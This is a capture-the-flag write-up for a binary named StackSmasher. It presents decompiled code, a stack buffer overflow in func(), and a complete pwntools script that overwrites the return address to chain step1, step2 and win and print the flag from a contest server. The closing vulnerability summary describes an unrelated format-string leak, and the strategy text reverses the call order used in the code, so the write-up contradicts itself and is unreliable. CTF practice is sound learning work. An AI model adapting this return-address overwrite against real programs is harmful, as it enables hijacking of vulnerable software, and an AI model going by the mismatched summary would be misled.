







# StackSmasher - Writeup

---

## Challenge Description



---

## Exploit Demo

This demo shows the exploitation flow:



---

## Challenge Summary

The StackSmasher binary contains a buffer overflow vulnerability in the func() function, where user input is read into a 32-byte buffer, but 128 bytes are allowed. This allows an attacker to smash the stack and control the program's execution. The goal is to exploit this vulnerability to call the win() function, which prints the flag stored in the FLAG_VAL environment variable.

To achieve this, we must bypass the checks in the win() function by calling step1 and step2 in the right order to make the condition true and trigger the flag output.

## Binary Information

```bash
$ file StackSmasher
```



```bash
$ checksec StackSmasher
```



---

## Static Analysis (IDA pro)

### Vulnerable Code

```c
int func()
{
  char buf[32]; // [rsp+0h] [rbp-20h] BYREF

  printf("%s", "Input username:");
  read(0, buf, 0x80uLL);
  return printf("Your name is %s", buf);
}
```



- The `func()` function reads 128 bytes of input into the 32-byte buffer `buf`, causing a **buffer overflow**.
- This allows control over the **return address**, enabling the attacker to redirect execution to the `win()` function.

### `win()` Function

```c
int win()
{
  int result; // eax
  const char *s; // [rsp+8h] [rbp-8h]

  s = getenv("FLAG_VAL");
  result = first;
  if ( first )
  {
    result = second;
    if ( second )
      return puts(s);
  }
  return result;
}
```



- The `win()` function requires both `first` and `second` to be set to `1` to print the flag.

### `step1()` and `step2()` Functions

```c
void step1() { first = 1; }
void step2() { second = 1; }
```

- The attacker can call `step1()` and `step2()` by exploiting the buffer overflow to trigger the flag print in `win()`.

---

## Exploit Strategy

### Step 1: Overflow the Buffer

We exploit the buffer overflow by sending input larger than 32 bytes, overwriting the **return address** and controlling the **RIP** to redirect execution to the `win()` function.

### Step 2: Call `step1()` and `step2()`

After redirecting execution to `win()`, we must:

- Call `step1()` to set `first = 1`.
- Call `step2()` to set `second = 1`.

### Step 3: Trigger the Flag

Once both `first` and `second` are set, the `win()` function will print the flag stored in the `FLAG_VAL` environment variable.

---

## Exploit Code

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template StackSmasher --host ctf.mf.grsu.by --port 9078
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or 'StackSmasher')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141 EXE=/tmp/executable
host = args.HOST or 'ctf.mf.grsu.by'
port = int(args.PORT or 9078)

env_vars = {'FLAG_VAL': 'grodno{dummy_flag}'}

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, env= env_vars, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:      Partial RELRO
# Stack:      No canary found
# NX:         NX enabled
# PIE:        No PIE (0x400000)
# Stripped:   No

io = start()

# shellcode = asm(shellcraft.sh())
# payload = fit({
#     32: 0xdeadbeef,
#     'iaaa': [1, 2, 'Hello', 3]
# }, length=128)
# io.send(payload)
# flag = io.recv(...)
# log.success(flag)

offset = 40
payload = flat (
        b'A' * 40,
        exe.symbols['step1'],
        exe.symbols['step2'],
        exe.symbols['win']
)
io.sendline(payload)
io.recvuntil(b'@')
flag = io.recvline().strip(b'"\n')
log.success(f"FLAG : {flag.decode()}")


```

---

## Exploit Output



---

## Vulnerability Summary

- **Format string vulnerability** allows leaking memory using `%p` and `%s`.
- The leaked memory provides the **address of the `FLAG_VAL` environment variable**.
- By reading the leaked address, we can **extract the flag**.

---

## Flag

```
grodno{unCL3_M47V3y_w45_h3R3_w17H_0ld_5Ch00L_3xPL017}
```
